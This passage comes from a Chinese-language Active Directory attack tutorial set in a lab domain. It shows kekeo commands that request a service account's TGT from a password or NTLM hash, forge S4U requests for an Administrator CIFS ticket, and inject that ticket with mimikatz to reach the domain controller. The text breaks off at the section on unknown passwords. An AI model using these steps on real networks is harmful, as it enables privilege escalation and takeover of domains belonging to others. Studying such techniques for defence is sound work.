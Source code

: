   
已经知道服务用户明文的条件下，我们可以用 kekeo 请求该用户的 TGT

```
tgt::ask /user:PC-JACK-0DAY /domain:0day.org /password:password /ticket:test.kirbi
```

参数：  
`/user`: 服务用户的用户名  
`/password`: 服务用户的明文密码  
`/domain`: 所在域名  
`/ticket`: 指定票据名称，不过这个参数没有生效，可以忽略  
kekeo 同样也支持使用`NTLM Hash`  
在请求服务用户的 TGT 那步直接把`/password`改成`/NTLM`即可  
这里我们知道 PC-JACK-0DAY 的 ntlm hash 为：768623e06fae601be0c04759c87d93d3  
我们执行：

```
tgt::ask /user:PC-JACK-0DAY /domain:0day.org /NTLM:768623e06fae601be0c04759c87d93d3 /ticket:test.kirbi
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIgGic5V3icicK1H1aG6E4Il3iap3eUyLWZP5mhkDpq59Iea6vzD84znUDLQ/640?wx_fmt=png)

  
得到 TGT_PC-JACK-0DAY@0DAY.ORG_krbtgt~0day.org@0DAY.ORG.kirbi  

### 3. 获取 ST

  
然后我们可以使用这张 TGT 通过伪造 s4u 请求以`administrator`用户身份请求访问`OWA2010SP3 CIFS`的 ST  

```
tgs::s4u /tgt:TGT_PC-JACK-0DAY@0DAY.ORG_krbtgt~0day.org@0DAY.ORG.kirbi /user:Administrator@0day.org /service:cifs/OWA2010SP3.0day.org
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIdqVmmibDYAJhAIwILuYOMmJWbgGsqdYKhDmPFbl7Cp2MlXDV3kadW1A/640?wx_fmt=png)

  
`S4U2Self`获取到的 ST1 以及`S4U2Proxy`获取到的 OWA2010SP3 CIFS 服务的 ST2 会保存在当前目录下  

### 4. 注入 ST2

  
然后我们用 mimikatz 将 ST2 导入当前会话即可  

```
kerberos::ptt TGS_Administrator@0day.org@0DAY.ORG_cifs~OWA2010SP3.0day.org@0DAY.ORG.kirbi
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIoxyrbDXORYq4YQiasQcFW6icMBl6cAupJmib0FnyzYTRQWibiciaiaSGiaGic1A/640?wx_fmt=png)

### 5. 访问域控

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaI57V0OJpsvNWxftsA0gAj4GwrjEzT9kEHdialXm7THQ8L3twJVric10Kw/640?wx_fmt=png)

### 6. 不知道服务用户密码的情况
